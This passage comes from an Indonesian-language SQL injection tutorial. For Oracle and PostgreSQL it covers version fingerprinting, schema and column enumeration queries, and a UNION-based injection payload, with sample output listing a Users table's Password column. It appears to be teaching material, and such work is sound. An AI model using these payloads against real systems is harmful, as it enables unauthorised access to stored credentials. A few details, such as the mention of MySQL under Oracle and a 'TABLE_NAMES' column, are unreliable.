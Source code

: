 **information_schema.columns**
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

Output:
```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE  
=================================================================  
MyDatabase dbo Users UserId int  
MyDatabase dbo Users Username varchar  
MyDatabase dbo Users Password varchar
```

### Oracle
Dengan mencari tahu versi, kamu bisa tentukan jenis database apa yang digunakan, beserta syntax, dan kerentanannya.
`SELECT * FROM v$version`
`SELECT BANNER FROM v$version`
Untuk mencari tahu versi, kamu bisa gunakan `UNION` attack jika sumber serangannya dari tabel lainnya.

Pada Oracle, setiap `SELECT` query harus diikuti `FROM`. Terdapat builtin tabel `DUAL` yang berisi 1 baris dan 1 kolom saja berisi kolom `DUMMY` dengan value `X`. Tabel `DUAL` ini dapat digunakan untuk melakukan `UNION` attack pada MySQL yang tidak memerlukan data dari tabel manapun.
`' UNION SELECT NULL,NULL FROM DUAL -- `

Pada Oracle, kamu bisa mendapatkan informasi mengenai seluruh database melalui view all_tables.
`SELECT * FROM ALL_TABLES`
`SELECT OWNER,TABLE_NAMES FROM ALL_TABLES`

Untuk informasi kolom bisa didapatkan melalui view all_tab_columns
`SELECT * FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='users'`


### PostgreSQL
Dengan mencari tahu versi, kamu bisa tentukan jenis database apa yang digunakan, beserta syntax, dan kerentanannya.
`SELECT version()`
Untuk mencari tahu versi, kamu bisa gunakan `UNION` attack jika sumber serangannya dari tabel lainnya.

Terdapat information schema yang memberikan informasi tentang database dan tabel.

**information_schema.tables**
`SELECT * FROM information_schema.tables`

Output:
```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE  
=====================================================  
MyDatabase dbo Products BASE TABLE  
MyDatabase dbo Users BASE TABLE  
MyDatabase dbo Feedback BASE TABLE
```

**information_schema.columns**
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
